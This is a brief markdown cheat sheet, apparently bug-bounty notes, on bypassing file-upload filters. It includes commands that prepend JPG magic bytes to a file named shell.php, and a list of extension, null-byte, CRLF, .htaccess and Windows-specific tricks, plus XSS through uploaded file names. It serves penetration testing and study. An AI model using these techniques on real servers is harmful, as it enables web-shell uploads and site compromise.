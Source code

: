 # File Upload


https://www.bugbountyhunter.com/guides/?type=fileuploads

```
head filename.php | xxd
```

Extracting magic bytes from a jpg file to replace in a php file

```
head -c 20 filename.jpg > magicbytes
```

next combine magicbytes and php file

```
cat magicbytes shell.php > shell_magicbytes.php
```

---

## Bypass Techniques

- Change Content-Type in Repeater
- blacklist bypass by giving related file name extensions (php --> php3/phtml)
- Suffix bypass `.php* (* -> 2-7)`  `.ph*  (pht,phtm,phtml)` `.php.gif` `.jpg%00.php`
- Upload `.htaccess` --> `SetHandler application/x-httpd-php` and upload original file as any non existent file extension like `.ppp` with content type `application/octet-stream`
- Case of suffix. Change the suffix case (php --> pHp/phP)
- give a empty space ` ` at the end of the file extension only if the target server is windows. windows will omit automatically if any space is there at the end of the file
- append `.` at the end of the file extension. if the target server is windows. windows will omit automatically if any `.` is there at the end of the file.
- `abc.php::$DATA` in windows systems only. DATA is the default attribute for NTFS.
- append `. .`  for windows.
- `filename.php/.jpg` to bypass. `filename.html%0d%0a.jpg` this also works.
- XSS via file upload. 
- XSS via file upload's file name. The file name is our XSS payload.
- file name with only extension without filename `.html` with content type other
- file name without file extension and only with name and with content type other